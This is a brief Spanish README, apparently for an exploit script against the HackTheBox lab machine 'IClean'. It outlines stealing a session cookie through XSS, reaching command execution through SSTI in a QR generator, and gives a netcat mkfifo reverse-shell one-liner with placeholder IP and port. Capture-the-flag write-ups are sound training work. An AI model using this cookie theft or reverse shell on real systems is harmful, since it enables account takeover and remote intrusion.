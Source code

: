 # Script 

Este script se aprovecha de un XSS y SSTI en la máquina IClean de HTB.
1. El endPoint `/sendMessage` es vulnerable a XSS, realizamos una petición a un servidor en nuestra máquina
2. Creamos un servidor, se recibe una cookie de session.
3. Con la cookie podemos acceder a `/QRGenerator`, la variable `qr_link` es vulnerable a SSTI, y podemos realizar ejecución de comandos.
4. Revshells nc mkfifo -> `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc IP PORT >/tmp/f`
